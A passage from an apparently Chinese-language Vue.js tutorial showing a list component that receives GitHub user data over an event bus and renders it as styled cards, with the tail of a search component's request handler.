                this.$bus.$emit('getUsers',response.data.items)
              },
              (error) => {
                console.log('请求失败了',error)
              }
          )
    }

  }
}
</script>

<style scoped>

</style>
```


## list.vue


```java
<template>
  <div class="row">
    <!-- 展示用户列表 -->
    <div  class="card" v-for="user in users" :key="user.id">
      <a :href="user.html_url" target="_blank">
        
      </a>
      <p class="card-text">{{user.login}}</p>
    </div>
  </div>
</template>

<script>
export default {
  name: "List",
  data() {
    return {
      users:[]
    }
  },mounted() {
    this.$bus.$on('getUsers',(lists)=>{
      console.log('接收到数据了',lists)
      this.users = lists
    })
  }
}
</script>

<style scoped>
.album {
  min-height: 50rem; /* Can be removed; just added for demo purposes */
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}

.card {
  float: left;
  width: 33.333%;
  padding: .75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}

.card > img {
  margin-bottom: .75rem;
  border-radius: 100px;
}

.card-text {
  font-size: 85%;
}
</style>
```


## 测试





